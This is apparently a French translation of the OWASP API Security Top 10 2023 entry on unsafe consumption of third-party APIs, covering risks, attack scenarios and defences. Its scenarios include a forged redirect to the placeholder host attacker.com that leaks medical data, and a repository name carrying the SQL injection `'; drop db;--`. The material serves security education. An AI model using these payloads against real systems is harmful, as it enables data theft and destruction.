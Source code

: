 # API10:2023 Unsafe Consumption of APIs

| Facteurs de menace / Vecteurs d'attaque | Faille de sécurité | Impact |
| - | - | - |
| Spécifique à l'API : Exploitabilité **Facile** | Prévalence **Courante** : Détectabilité **Moyenne** | Technique **Grave** : Spécifique à l'organisation |
| Exploiter ce problème nécessite que les attaquants identifient et compromettent potentiellement d'autres APIs/services avec lesquels l'API cible est intégrée. Habituellement, ces informations ne sont pas publiquement disponibles ou l'API/service intégré n'est pas facilement exploitable. | Les développeurs ont tendance à faire confiance et ne pas vérifier les points d'accès qui interagissent avec des API/services externes ou tiers, en se basant sur des exigences de sécurité plus faibles telles que celles concernant la sécurité du transport, l'authentification/l'autorisation et la validation des entrées. Les attaquants doivent identifier les services avec lesquels l'API cible s'intègre (sources de données) et, éventuellement, les compromettre. | L'impact varie en fonction de ce que l'API cible fait avec les données extraites. L'exploitation réussie peut entraîner une exposition d'informations sensibles à des acteurs non autorisés, de nombreux types d'injections, ou un déni de service. |

## L'API est-elle vulnérable ?

Les développeurs ont tendance à faire confiance aux données reçues des API tierces plus qu'aux entrées utilisateur. Cela est particulièrement vrai pour les API proposées par des entreprises bien connues. En raison de cela, les développeurs ont tendance à adopter des normes de sécurité plus faibles, par exemple en ce qui concerne la validation des entrées et l'analyse en vu de caractères autorisés ou non en entrée (effacés ou échappés).

L'API peut être vulnérable si :
* Elle interagit avec d'autres API sur un canal non chiffré ;
* Elle ne valide/filtre pas correctement les données collectées auprès d'autres API avant de les traiter ou de les transmettre à des composants en aval ;
* Elle suit aveuglément les redirections ;
* Elle ne limite pas le nombre de ressources disponibles pour traiter les réponses des services tiers ;
* Elle n'implémente pas de délais d'attente pour les interactions avec les services tiers.

## Exemple de scénarios d'attaque

### Scénario #1

Une API repose sur un service tiers pour enrichir les adresses commerciales fournies par les utilisateurs. Lorsqu'une adresse est fournie à l'API par l'utilisateur final, elle est envoyée au service tiers et les données renvoyées sont ensuite stockées dans une base de données locale compatible SQL.

Les attaquants utilisent le service tiers pour stocker une payload SQLi associée à une entreprise créée par eux. Ensuite, ils ciblent l'API vulnérable en fournissant une entrée spécifique qui la pousse à extraire leur "entreprise malveillante" du service tiers. La charge utile SQLi est alors exécutée par la base de données, exfiltrant des données vers un serveur contrôlé par un attaquant.

### Scénario #2

Une API s'intègre à un fournisseur de services tiers pour stocker en toute sécurité des informations médicales sensibles sur les utilisateurs. Les données sont envoyées via une connexion sécurisée en utilisant une requête HTTP comme celle ci-dessous :

```
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```

Des acteurs malveillants ont trouvé un moyen de compromettre l'API tierce et elle commence à répondre avec une redirection permanente `308` aux requêtes comme la précédente.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Puisque l'API suit aveuglément les redirections, elle répète la même requête, y compris les données sensibles de l'utilisateur, vers le serveur de l'attaquant.

### Scénario #3

Un attaquant peut préparer un dépôt git nommé `'; drop db;--`.

Maintenant, lorsqu'une intégration d'une application attaquée est effectuée avec le dépôt malveillant, une charge utile d'injection SQL est utilisée sur une application qui construit une requête SQL en croyant que le nom du dépôt est une entrée sûre.

## Comment s'en prémunir ?

* Lors de l'évaluation des fournisseurs de services, évaluez leur posture de sécurité API.
* Assurez-vous que toutes les interactions API se font sur un canal de communication sécurisé (TLS).
* Validez toujours et désinfectez correctement les données reçues des API intégrées avant de les utiliser.
* Maintenez une liste blanche des emplacements bien connus vers lesquels les API intégrées peuvent rediriger les vôtres : ne suivez pas aveuglément les redirections.


## Références

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### Externes

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
